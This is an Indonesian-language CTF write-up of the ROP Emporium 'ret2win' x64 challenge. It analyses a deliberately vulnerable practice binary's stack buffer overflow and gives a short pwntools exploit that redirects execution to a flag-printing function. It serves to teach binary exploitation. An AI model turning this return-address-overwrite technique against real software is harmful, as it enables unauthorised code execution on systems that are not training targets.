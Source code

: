 # ROP Emporium 
## Ret2win (x64)

inti dari soal ini yaitu mengubah alur binary yang tadi nya mengarah ke exit jadi mengarah ke win untuk ngeprint flag
ret2win

"A ret2win is simply a binary where there is a win() function (or equivalent); once you successfully redirect execution there, you complete the challenge."
https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win

## Analisis
kita check binary nya 

![Preview](image/1.png)

no pie -> tidak ada pengacakan address dalam binary
no canary -> tidak ada nya proteksi sebelum return address
nx enabled -> tidak bisa shellcode

selanjutnya cek isi dari binary nya
```
void pwnme(void)

{
  undefined buffeer [32];
  
  memset(buffeer,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,buffeer,0x38);
  puts("Thank you!");
  return;
}
```

bisa kita lihat di fungsi read itu mengambil 0x38(56 byte) dari buffer, sedangkan buffer hanya memuat 32 byte
ini bisa mengakibatkan buffer overflow

arah binarynya gini 
main -> pwnme -> main
kita akan ubah jadi gini
main -> pwnme -> win print flag

ke sini

![Preview](image/2.png)

```
void ret2win(void)

{
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

kurang lebih begini exploit nya

```
from pwn import *

context.binary = elf = ELF("./ret2win")
context.terminal = ['xfce4-terminal', '-e']
#context.log_level = 'debug'
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
	p = gdb.debug([elf.path],'''
            b *main
            continue
        ''')
else:
    p = process()

offset = 40
win = 0x0000000000400757

payload = b'A'*offset
payload += p64(win)

p.sendline(payload)
p.interactive()
```

dan ini hasil outputnya 

![Preview](image/3.png)

